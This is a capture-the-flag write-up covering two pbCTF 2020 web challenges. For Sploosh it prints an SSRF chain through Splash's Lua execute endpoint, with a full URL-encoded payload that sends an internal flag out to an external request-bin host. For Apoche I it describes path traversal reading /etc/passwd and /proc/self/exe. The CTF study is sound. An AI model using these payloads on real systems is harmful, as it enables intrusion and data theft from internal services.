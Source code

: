 ```yaml
---
layout: post
date: 2020-12-07 00:00:00
title: "pbCTF 2020 Write Up"
categories: CTF
tags: [Path Traversal, SSRF]
author:
  - Jeongwon Jo
---
```

I participated by opening the CTF this time at Perfect Blue. Let's write Write Up only for web challenges solved by CTF.

---
## <span style="color:#21C587"></span> (Web) Sploosh [156 pts]

This time, we will solve a problem called Sploosh among web challenge from pbCTF.
![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%2012.27.01.png?raw=true)
When you come into challenge, you can see that there is a form for entering the URL, and you can download the source code by clicking here.<br><br>

Once you think about it before looking at the source code, you might be suspicious of `SSRF` because it has the ability to type in the url.

```php
<?php
error_reporting(0);

header("Content-Type: application/json");

function fail() {
  echo "{}";
  die();
}

if (!isset($_GET['url'])) {
  fail();
}


$url = $_GET['url'];

if ($url === '') {
  fail();
}

try {
  $json = file_get_contents("http://splash:8050/render.json?timeout=1&url=" . urlencode($url));
  $out = array("geometry" => json_decode($json)->geometry);
  echo ($out);
} catch(Exception $e) {
  fail();
}
?>
```

Let's check the api.php source code. You can see that the url is input and the file is opened and checked with the file_get_contents() function. And you can see that the file value is output as the geometry value.
<br><br>
SSRF seems to be fired by the `file_get_contents()` function of api.php.

```php
<?php

$FLAG = getenv("FLAG");

$remote_ip = $_SERVER['REMOTE_ADDR'];
if ($remote_ip === "172.16.0.13" || $remote_ip === '172.16.0.14') {
  echo $FLAG;
} else {
  echo "No flag for you :)";
}
?>
```

Let's check the source code of flag.php. If the connection IP is `172.16.0.13` or `172.16.0.14`, you can see the flag is given.

And looking at the flag.php source code, you can see that the flag is only output on the internal server. So it looks like we need to put the flag in a specific variable and bring it to our private server.

Now I've searched for Sploosh to do an exploit. If you check [Sploosh's official homepage](https://splash.readthedocs.io/en/stable/scripting-tutorial.html#scripting-tutorial), you find that you can create and run Lua scripts by connecting to the `execute` endpoint.

![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%201.13.22.png?raw=true)

The picture above is on the official Sploosh website. Looking at the contents, you can see that the `execute` endpoint sends the RCE payload using the lua_source parameter.

```lua
function main(exploit, args)
  exploit:go("http://172.16.0.14/flag.php")
  local flag = splash:html()
  exploit:go("requestbin" .. flag)
  return {geometry=data}
end
```
So, I wrote the SSRF + RCE payload as above using the lua script.
```python
flag = requests.get("http://172.16.0.14/flag.php")
requests.get("requestbin"+flag)
```
If the exploit code is interpreted in Python, it is as above.

Finally, if you connect and send the exploit code above to the excute endpoint, a flag will come to requestbin. (`URL encoding`)
```
payload : http%3A%2F%2Flocalhost%3A8050%2Fexecute%3Flua_source%3Dfunction%2520main%28splash%2C%2520args%29%2520splash%3Ago%28%2522http%3A%2F%2F172.16.0.14%2Fflag.php%2522%29%2520local%2520data%2520%3D%2520splash%3Ahtml%28%29%2520splash%3Ago%28%2522https://66409bdd5f994b912d1a7f0f28d3b33f.m.pipedream.net%2F%2522%2520..%2520data%29%2520return%2520%7Bgeometry%3Ddata%7D%2520end
```
So, I'll URL-encode the exploit code and pass it over.

![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%202.29.59.png?raw=true)

When I sent the above exploit payload, I could see the flag coming to the requestbin.

> FLAG : pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s}

---
## <span style="color:#21C587"></span> (Web) Apoche I [58 pts]

This time, we will solve a challenge called Apoche I among web challenge from pbCTF.
![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%205.19.31.png?raw=true)
Looking at the challenge description, there are 5 URLs given. You can connect to an open server among 5 servers. (Some servers are closed.)

And looking at the hint, it says to get information about the binary.
![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%205.23.10.png?raw=true)
I connected to 34.68.159.75:41521, and when I checked the robots.txt file, I could see that there is a secret directory. I thought LFI would happen here, so I grabbed a proxy and attempted an LFI attack.

![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%205.27.43.png?raw=true)
When I grabbed the request using Burp Suite and accessed the `/etc/passwd` file, I could see that the `LFI` worked well.

![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%205.32.50.png?raw=true)
So I accessed `/proc/self/exe` to get the `binary file`, and when I searched for `pbctf{`, I could see that the binary file had a flag.

> FLAG : pbctf{n0t_re4lly_apache_ap0che!}

---

